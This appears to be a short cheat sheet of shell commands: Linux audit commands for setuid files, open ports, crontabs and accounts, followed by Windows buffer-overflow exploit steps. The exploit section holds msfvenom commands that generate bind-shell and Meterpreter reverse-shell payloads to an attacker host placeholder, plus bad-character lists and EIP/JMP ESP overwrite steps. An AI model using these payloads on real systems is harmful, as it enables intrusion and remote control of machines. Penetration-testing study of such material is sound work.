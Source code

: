 ### Linux Security Commands

```
# find programs with a set uid bit
find / -uid 0 -perm -4000

# find things that are world writable
find / -perm -o=w

# find names with dots and spaces, there shouldn’t be any
find / -name " " -print
find / -name ".." -print
find / -name ". " -print
find / -name " " -print

# find files that are not owned by anyone
find / -nouser

# look for files that are unlinked
lsof +L1

# get information about procceses with open ports
lsof -i

# look for weird things in arp
arp -a

# look at all accounts including AD
getent passwd

# look at all groups and membership including AD
getent group

# list crontabs for all users including AD
for user in $(getent passwd|cut -f1 -d:); do echo "### Crontabs for $user ####"; crontab -u $user -l; done

# generate random passwords
cat /dev/urandom| tr -dc ‘a-zA-Z0-9-_!@#$%^&*()_+{}|:<>?=’|fold -w 12| head -n 4

# find all immutable files, there should not be any
find . | xargs -I file lsattr -a file 2>/dev/null | grep ‘^….i’

# fix immutable files
chattr -i file
```

### Win Buffer Overflow Exploit Commands

```
msfvenom -p windows/shell_bind_tcp -a x86 --platform win -b "\x00" -f c
msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 -a x86 --platform win -e x86/shikata_ga_nai -b "\x00" -f c

COMMONLY USED BAD CHARACTERS:
\x00\x0a\x0d\x20                              For http request
\x00\x0a\x0d\x20\x1a\x2c\x2e\3a\x5c           Ending with (0\n\r_)

# Useful Commands:
pattern create
pattern offset (EIP Address)
pattern offset (ESP Address)
add garbage upto EIP value and add (JMP ESP address) in EIP . (ESP = shellcode )

```